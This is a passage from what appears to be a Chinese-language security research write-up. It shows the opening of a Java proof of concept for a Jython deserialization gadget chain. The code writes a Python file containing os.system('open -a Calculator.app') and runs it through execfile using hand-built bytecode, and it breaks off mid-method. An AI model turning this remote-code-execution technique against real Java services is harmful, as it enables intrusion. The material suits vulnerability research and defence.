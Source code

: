 [![](assets/1708482702-096531a147241440aefdc5412bc1b035.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220142144-51dc40a0-cfb8-1.png)

通过 execfile 执行，不用在代码外层 import os

```plain
package org.example;

import org.python.core.*;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.math.BigInteger;
import java.util.Comparator;
import java.util.PriorityQueue;

public class Jython {
    public static void main(String[] args) throws Exception {
        String path = "/Users/Downloads/123.py";
        String code = "import os\nos.system('open -a Calculator.app')";

        String pythonByteCode = "7400006401006402008302007D00007C0000690100640300830100017C0000690200830000017403006401008301000164000053";

        // 初始化参数
        PyObject[] consts = new PyObject[]{new PyString(""), new PyString(path), new PyString("w+"), new PyString(code)};
        String[]   names  = new String[]{"open", "write", "close", "execfile"};

```
